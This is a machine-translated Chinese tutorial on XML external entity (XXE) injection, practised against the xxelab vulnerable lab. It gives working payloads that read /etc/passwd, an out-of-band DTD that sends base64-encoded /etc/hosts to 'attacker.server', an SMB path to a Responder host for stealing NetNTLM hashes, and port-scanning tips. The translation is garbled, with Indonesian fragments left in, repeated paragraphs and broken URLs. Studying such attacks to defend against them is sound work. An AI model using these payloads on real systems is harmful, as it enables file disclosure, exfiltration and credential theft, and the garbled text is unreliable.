







# 利用 XML 外部实体(XXE)注入漏洞

> 原文：<https://infosecwriteups.com/exploiting-xml-external-entity-xxe-injection-vulnerability-f8c4094fef83?source=collection_archive---------0----------------------->

# XML 实体 101‌

# 一般实体

简单来说，XML 中的实体可以说是一个变量，所以这个实体可以保存一个值。实体可以声明为内部或外部。实体有 3 个重要部分，分别是`&`、`entity-name`和`;`。所以要调用一个已经声明的实体必须结合这三个部分。‌

# 内部实体

要创建内部实体，请使用以下语法

```
<!ENTITY entity-name "entity value">‌
```

**示例**

```
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY name "si tampan">]><user>&name;</user>
```

这与下面的 PHP 代码相同:

```
$name = "si tampan";
e‌cho $name;
```

# 外部实体

创建一个外部实体与创建一个内部实体是一样的，但是在实体名称后添加关键字`SYSTEM`并且它的值必须是绝对/相对`URI/URL`。

```
<!ENTITY enitity-name SYSTEM "URI/URL">‌
```

**示例**

```
<?xml version="1.0" standalone="yes" ?><!DOCTYPE text [<!ENTITY word SYSTEM "file://text.txt">]><text>&word;</text>‌
```

上面的 XML 与下面的 PHP 代码相同:

```
$word = file_get_contents("file://text.txt");
echo $word;‌
```

# 参数实体

参数实体与一般实体相似，只是参数实体只能在`<!DOCTYPE docname [`和`]>`之间的 DTD 结构中使用，并且必须在实体名称前加一个`%`符号。‌

参数实体也可以是内部实体和外部实体，但韩亚可以作为参数外部实体。作为参数实体，外部实体必须将数据 XML 转换为 DTD。Penggunaan 参数实体 mirip seperti konsep `include()` pada php。

在参数实体中，也有内部和外部实体，但这里只讨论外部参数实体。在参数实体中，外部实体必须是 XML 数据的有效语法，因为它将被视为 DTD。参数实体的使用类似于 PHP 中`include()`函数的概念。

```
<!ENTITY % enitity-name SYSTEM "URI">‌
```

例如，有一个名为`data.xml`的外部`DTD`，其内容:

```
<!ENTITY email "si_tampan@email.com"><!ENTITY name "si tampan">‌
```

**例子**

```
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [
<!ENTITY % ext-dtd SYSTEM "data.xml">
%ext-dtd;
]>
<user>&name; &email;</user>
```

因为这个参数实体类似于 PHP 中的`include()`函数，当调用`%ext-dtd;`发生时，`%ext-dtd`会被`data.xml`中的所有数据替换，所以会是这样的:

```
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY % ext-dtd SYSTEM "data.xml"><!ENTITY email "si_tampan@email.com"><!ENTITY name "si tampan">]><user>&name; &email;</user>‌
```

# 实体中的实体

可以使用以下语法将已声明的实体的值用于或组合到另一个实体中:

```
<!ENTITY enitity-one "entity-one value"><!ENTITY entity-two "entity-two value &enitity-one;">‌
```

**示例**

```
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY email "si_tampan@email.com"><!ENTITY name "si tampan &email;">]><user>&name;</user>‌
```

实体中的实体也可以是参数实体，但不能是解析有效的 XML。‌

实体中的实体也可以在参数 entity 上执行，但该值必须是有效的 XML 语法，因为它将被解析。‌

# XXE Attack‌

简单地说，XXE 攻击的发生是因为 XML 解析器允许使用外部实体，就这么简单！！。

因为通过能够使用外部实体，攻击者可以做各种事情，如:‌

1.  SSRF
2.  PHP 对象注入(通过 phar://)
3.  XSS/CSRF
4.  本地文件公开
5.  RCE
6.  Scanning‌当地港口

# 实验室设置

对于实验室设置，我们使用来自[https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)的`xxelab`，在这个报告中已经创建了一个`Vagrantfile`，这意味着您可以通过使用`vagrant`直接创建*环境*

```
$ git clone [https://github.com/jbarone/xxelab.git](https://github.com/jbarone/xxelab.git)$ cd xxelab$ vagrant up
```

也可以不使用`Vagrant`自行部署


‌

# 经典 XXE

在经典的 XXE 中，攻击者只需要创建一个简单的外部实体来读取本地文件，并通过 XML 解析器将要解析的元素调用该实体。

网上实验室的请求。



从服务器响应结果可以看出，电子邮件元素将被解析和显示，因此经典的 XXE 可以用来读取本地文件。

‌ **有效载荷:**

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY file SYSTEM "file:///etc/passwd">]><root><name>test</name><tel>082</tel><email>&file;</email><password>pwd</password></root>
```



# 盲人 XXE——XXE 乐队之外

顾名思义，它是`blind`，意思是解析结果或数据不会被显示，要看到数据，必须进行*过滤*才能看到/读取数据。

对于盲测实验室，XXE 仍然使用 xxelab，但源略有变化，回声部分被删除，因此结果不会显示为响应。

```
echo "Sorry, $email is already registered!";‌
```

# 盲 XXE 验证

在做*盲人 XXE* 注射之前，最好先核实一下，这个网站是否真的容易受到*盲人 XXE* 的攻击。验证是非常容易的，因为你只需要使用一个外部实体，该实体具有一个包装器或协议，该包装器或协议根据目标使用的技术栈支持远程源，如 HTTP、FTP 或其他协议，因为一些协议/包装器默认情况下不启用，还有一些包装器只在某些编程语言上工作，例如，只存在于 **Java** 中的`netdoc://`包装器(其行为类似于`file://`)。

**有效载荷验证:**

```
<!DOCTYPE root [<!ENTITY % test SYSTEM "http://attacker.server:2121">%test;]><?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % test SYSTEM "http://attacker.server:2121">%test;]><root><name>test</name><tel>021212</tel><email>test</email><password>pwd</password></root>
```

‌

如果你得到了来自目标服务器的响应，这意味着你可以确定目标容易受到*盲 XXE* 的攻击。



# OOB·XXE

如果目标已被验证，并收到指示易受 XXE 攻击的响应，下一步就是*泄漏*您想要读取的数据。‌

远程 dtd nya bernama `evil.dtd` disimpan di 服务器攻击者，isi nya:

名为`evil.dtd`的远程 DTD 存储在攻击者的服务器上，其内容有:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts"><!ENTITY % all "<!ENTITY % send SYSTEM 'http://attacker.server:2121/?%file;'>">
```

Payload diatas，filenya 创建了一个 php base64 包装器，用于处理`whitespace`过滤数据中的空白字符`libxml` php url 不支持空白字符。

上面的有效负载，文件使用了一个 *base64* PHP 包装器，目标是避免您想要过滤的数据中的空白字符(\s，\t，\n)，因为 the url 的`libxml`不能包含空白字符。



‌

**上面的有效载荷是如何工作的:‌**

1.  外部实体将在[http://attacker.server/evil.dtd](http://attacker.server/evil.dtd)解析远程源
2.  参数实体`file`将读取`/etc/hosts`
3.  实体`all`创建名为`send`的参数实体
4.  实体`send`将向[http://attack . server:2121](http://attacker.server:2121/)发送请求，并追加来自`file`实体的数据，因此 URL 请求看起来像这样:[http://attacker.server:2121/?DATABASE64](http://attacker.server:2121/?DATABASE64)‌

服务器监听器包含 *base64 编码的*数据，如果被解码，其内容就是目标服务器的`/etc/hosts`文件。



‌

# XXE 和 Scan‌港

进行端口扫描实际上非常容易，因为有效载荷与进行*盲 XXE* 验证时相同。这样，攻击者只需要将主机更改为本地服务器以及他想要尝试联系的端口。可以从服务器响应中看到特定端口是否打开的指示，例如，响应时间太长，或者可能显示了错误消息(如果服务器激活了错误报告)。‌

尝试扫描端口 9000。



# XXE 和 NetNTLM

如果目标在 Windows 服务器上，XXE 也可以被用来在`metasploit`或`Responder`工具的帮助下窃取 *NetNTLM* 哈希，被窃取的 *NetNTLM* 哈希不能用来通过哈希攻击，但可以被破解得到明文密码。‌

为了与 SMB 协议交互(特别是在 PHP 中的 XXE 的情况下),我们可以使用`php://`包装器，而与 SMB 协议交互的 URI 是`//‌`。

当然，对于有效载荷，我们可以使用外部实体(通用/参数)。

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//RESPONDER-IP/WhatEver">]><root><name>test</name><tel>021212</tel><email>&steal;</email><password>pwd</password></root>‌
```

运行命令`Responder`

```
$ ./Responder.py -I <INTERFACES_NAME>
```



使用响应程序时截取 NetNTML 哈希

# XXE 和开放 XML 文档

# XXE 和 SSRF

TBA。

# 结论

XXE 攻击的发生是因为 XML 解析器允许使用*外部实体*。XXE 是一个发生在特定技术中的安全漏洞，即 XML，如果你仍然不理解 XXE，这是由于缺乏对 XML 本身的了解。‌

# 更新

本文将继续更新，因为关于这个 XXE 仍有许多内容需要讨论，尤其是来自各种编程语言的 XML 解析器的奇怪行为。‌

# 参考:‌

*   [https://www.w3schools.com/xml/xml_dtd_intro.asp](https://www.w3schools.com/xml/xml_dtd_intro.asp)
*   [https://xmlwriter.net/xml_guide/entity_declaration.shtml](https://xmlwriter.net/xml_guide/entity_declaration.shtml)
*   [https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4)
*   [https://www.xml.com/pub/a/98/08/xmlqna2.html](https://www.xml.com/pub/a/98/08/xmlqna2.html)https://www . liquid
*   [technologies.com/DTD/Structure/ENTITY.aspx](https://www.liquid-technologies.com/DTD/Structure/ENTITY.aspx)
*   [https://www . acune tix . com/blog/articles/band-XML-external-entity-oo b-xxe/](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
*   [https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php](https://gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php)